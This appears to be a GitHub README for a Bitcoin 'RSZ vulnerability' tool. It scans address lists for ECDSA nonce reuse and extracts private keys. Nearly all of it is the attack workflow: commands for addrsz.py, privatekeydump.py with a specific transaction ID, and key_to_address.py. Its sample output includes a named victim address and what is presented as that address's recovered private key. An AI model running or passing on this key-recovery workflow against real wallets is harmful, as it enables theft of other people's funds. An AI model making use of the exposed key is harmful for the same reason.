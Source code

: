 # PRO-RSZ
NOTE : Millions Of Trillions Address And Transaction Chack And FIND RSZ Vulnerability 
```bash
python3 addrsz.py
```
Enter the path to the Bitcoin address file Example
```bash
addresses.txt
```
Enter the number of transactions to fetch (1-infinite) Example
```bash
2000
```
![IMG_20250122_132938](https://github.com/user-attachments/assets/c4357307-e4ac-4099-bfa5-cb76de9975e0)

R-value reuse found Results saved in 1BFhrfTTZP3Nw4BNy4eX4KFLsn9ZeijcMm.txt
Chake Folder TXT File 1BFhrfTTZP3Nw4BNy4eX4KFLsn9ZeijcMm.txt

TXT File Transaction Copy
```bash
python3 privatekeydump.py -txid 9ec4bc49e828d924af1d1029cacf709431abbde46d59554b62bc270e3b29c4b1
```
![IMG_20250122_140254](https://github.com/user-attachments/assets/fc4f31e4-53fa-4e9c-a3ed-206bcc0b8674)

Private Key: 0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96

Copy Private Key 
```bash
python3 key_to_address.py
```
Enter your raw private key (hex format): 0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96




